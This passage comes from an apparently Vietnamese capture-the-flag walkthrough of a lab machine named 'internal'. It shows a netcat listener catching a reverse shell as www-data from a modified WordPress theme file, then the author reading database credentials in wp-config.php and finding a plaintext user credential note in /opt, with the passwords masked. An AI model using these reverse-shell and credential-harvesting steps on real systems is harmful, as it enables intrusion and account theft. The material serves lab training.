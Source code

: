 `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402  
listening on [any] 2402 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.27.84] 50354
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:01:50 up  1:21,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1107): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@internal:/$ 
```

Vì đây là user web nên tôi sẽ thử vào thư mục web để tìm xem có gì hay ho không, thêm 1 điều nữa là bên chắc chắn bên trong thư mục web sẽ có file config của Wordpress nên biết đâu tôi sẽ tìm được user và password nào đó.

```python
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', '**************' );
```

Trong *wp-config.php* tôi tìm được user và pass để truy cập vào mysql. Tuy nhiên thì cũng không có gì đặc biệt để khai thác. Vậy nên tôi sẽ thử tìm kiếm xung quanh các thư mục trong *www-data*. 

```python
www-data@internal:/$ ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
```

Mất 1 lúc thì tôi đã tìm thấy thứ mình cần.

```python
www-data@internal:/opt$ ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:**************
```
